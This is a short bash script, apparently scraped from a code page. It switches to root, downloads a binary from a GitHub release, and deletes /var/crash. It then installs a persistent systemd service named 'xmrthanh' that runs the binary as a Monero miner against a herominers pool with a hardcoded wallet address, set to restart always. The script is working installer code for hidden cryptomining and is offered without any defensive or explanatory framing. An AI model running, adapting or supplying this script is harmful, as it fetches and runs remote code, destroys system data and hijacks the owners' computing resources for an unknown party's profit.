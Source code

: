 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o sg.monero.herominers.com:1111 -b 152.42.209.29:10000 -u 85Nh1jFLWG1ZPpSDB8eGSwhJPbxAYLbaSdTPovuRhaohT1UEUyvtf22Xh5Pz2y1Sku8hNiHDNVZUF31mLw1TkMsESBzSLsA -p 1svts1116 -a rx/0 -k -t 13
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
